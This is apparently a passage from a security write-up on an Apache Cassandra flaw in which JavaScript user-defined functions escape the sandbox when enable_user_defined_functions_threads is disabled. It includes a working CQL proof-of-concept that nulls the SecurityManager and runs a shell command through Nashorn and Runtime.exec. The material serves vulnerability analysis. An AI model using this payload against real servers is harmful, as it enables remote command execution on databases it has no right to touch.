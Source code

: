 &nbsp;

In this code section it first returns the `executor` instance which is an `ExecutorService` used for executing tasks asynchronously in the codebase. Then, we have `executeUserDefined()` function prepares the parameters & execute the `UDF` script and converts the result into a `ByteBuffer` to be returned.

![](/assets/images/5ad7c81676d4c43d9719d1b9ad68fe93)

&nbsp;

Then `executeAggregateUserDefined()` function prepares the parameters & call the `executeScriptInternal()` method with the prepared parametersand return the result of executing the `UDF`aggregate function.

## **enable\_user\_defined\_functions\_threads**

The `enable_user_defined_functions_threads` is a configuration option and when it's enabled, `UDF` execution is offloaded to a dedicated thread pool which allowing `UDFs` to be executed concurrently with other queries. And the main problem is here cause when this option is disabled the `UDF` runs in the daemon thread, As a results we has permissions to call `setSecurityManager` which allow us to disable the security manager in cassandra, As a results we will be able to bypass the class filtering and we will be able to include critical or blacklisted calsses to execute codes on the system as when we running the `JS` code in `Nashron` we can access `Nashorn` instance engine, through the access we have to the engine property. We can find the implementation of `SecurityManager` at the following class `src/java/org/apache/cassandra/security/ThreadAwareSecurityManager.java` the class is providing a mechanism for controlling and enforcing security permissions in `Cassandra` which allowing fine-grained access control for different operations and resources.

# **Exploitation**

It's the time to see how we can exploit the vulnerability before do our dynamic analysis on it. So, we be able to understand what we are debugging or analysis dynamically.

```
CREATE KEYSPACE test WITH replication = {'class': 'SimpleStrategy', 'replication_factor' : 3};
use test;
CREATE TABLE tab (cmd text PRIMARY KEY) WITH comment='Important biological records';
create or replace function test.exec(name text) RETURNS NULL ON NULL INPUT RETURNS text LANGUAGE javascript AS $$
var System = Java.type("java.lang.System");System.setSecurityManager(null);this.engine.factory.scriptEngine.eval('java.lang.Runtime.getRuntime().exec("touch /tmp/Pwn3d.txt")');name $$;
insert into tab(cmd) values('test');
select exec(cmd) from tab;
```

This `UDF` will run in a daemon thread as the `enable_user_defined_functions_threads` option is disabled, As a results we can have permissions to control `setSecurityManager` and we can see in the `UDF` we set it to null so we can bypass the class filteration & with the access to engine property we create a new engine instance and call `eval()` function from `JS` & finally, Our `JAVA` code in it to execute a command using `Runtime` from `Java`. In our case, The code will create a file named `Pwn3d.txt` under the `/tmp` directory on the server as a `PoC`. Let's Run the `UDF` and check it out:

